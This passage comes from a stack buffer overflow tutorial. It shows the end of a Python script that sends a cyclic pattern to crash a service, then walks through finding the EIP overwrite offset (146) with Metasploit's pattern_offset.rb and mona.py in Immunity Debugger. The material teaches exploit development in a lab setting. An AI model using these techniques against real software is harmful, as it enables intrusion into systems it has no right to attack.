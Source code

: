 ```{.python .numberLines}
  "q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3"
  "As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au"
  "4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4A"
  "w5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5"
  "Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
  "6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6B"
  "c7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7"
  "Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg"
  "8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B").encode()
buf += b"\n"

s.send(buf)
```

---

\newpage

And sending 'er off:

```
% ./exploit.py
```

We get a somewhat different crash this time. Instead of `0x41414141` (`"AAAA"`)
being in `EIP`, we have `0x39654138` (`"9eA8"`).

![Different crashy crashy. `EIP` = `0x39654138`
("9eA8")](../dostackbufferoverflowgood_images/immdbg_0x39654138.png)

\newpage

We have several options for finding out how far in our cyclic pattern the
sequence `"9eA8"` appears.

We can run Metasploit's `pattern_offset.rb` with an argument of either "9eA8"
or "39654138":

```
% ~/opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

This tells us that the four characters that overwrite the Saved Return Pointer
and end up in `EIP` are at offset 146 (i.e. from the 147th character onwards).

Alternatively, `mona.py` gives us a function called `"findmsp"` that will
search the memory of our process for all instances of the cyclic pattern and
will give us a bunch of info on each occurrence, will tell us if any registers
(e.g. `EIP`) contain a subset of the pattern, if any registers point to
somewhere in a copy of the pattern, and much much more.

`mona.py` commands are run via the command input at the bottom of Immunity
Debugger and are prefixed with `"!mona"`.

![`mona.py`'s `findmsp`](../dostackbufferoverflowgood_images/immdbg_findmsp.png)

